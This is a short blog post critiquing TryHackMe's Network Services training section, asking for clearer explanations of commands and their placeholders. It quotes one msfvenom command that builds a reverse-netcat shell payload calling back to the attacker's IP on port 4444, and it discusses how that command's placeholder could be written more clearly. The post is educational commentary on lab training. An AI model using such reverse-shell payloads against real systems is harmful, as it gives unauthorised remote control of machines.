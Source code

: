 ```yaml
---
layout: post
title: Working through THM Network Services 
date: 2022-11-24-00-31-58
categories: [Uncategorized]
---
```


In the past few days I've been working through Try Hack Me's Network services section and overall it's a solid introduction to different services and the issues they can have along with how to enumerate services to figure out what's going on.

I think the section is good, but it could use some improvements, namely:

1.  It needs to explain WHAT is happening

Too often a command or set of commands will be presented without explaining what is happening in the background with the expectation that if something is typed in the result will be as expected.

2.  WHY a command is being used

Commands can be utilized but it needs to go more in depth as to why it's that command or tool that's being utilized as opposed to potential alternatives.

3.  Clarity

This is a derivative of the points above, but there are points where it's easy to get confused in the commands because hey, code is weird sometimes.  For instance it's possible to get lost understanding the following:

```
msfvenom -p cmd/unix/reverse_netcat lhost=[local tun0 ip] lport=4444 R
```

Let's break this down according to all the points we have

- msfvenom -p cmd/unix/reverse_netcat lhost=[local tun0 ip] lport=4444 R

With this command we're told that we're creating a reverse shell on a target machine, but WHY are we using msfvenom, are there other tools we could use, is there a preference on tools or are different tools situational?

WHAT is the command doing from the switch through the rest of the line, are there other commands/reverse shells we could use?

Clarity: the section: lhost=[local tun0 ip] is unclear because it's VERY easy to confuse [local tun0 ip] as valid code, especially if we think we're using a list/array structure.  What should be done to make this clear is something like:

lhost=<LOCAL eth0 OR lan0 IP ADDRESS HERE> lport=<SPECIFIED PORT HERE>

This way it's extremely clear as to what's being asked for and why

In the FTP section, this kind of explanation is provided with hydra (with some caveats), but overall the learning experience is solid and could use some refinement.

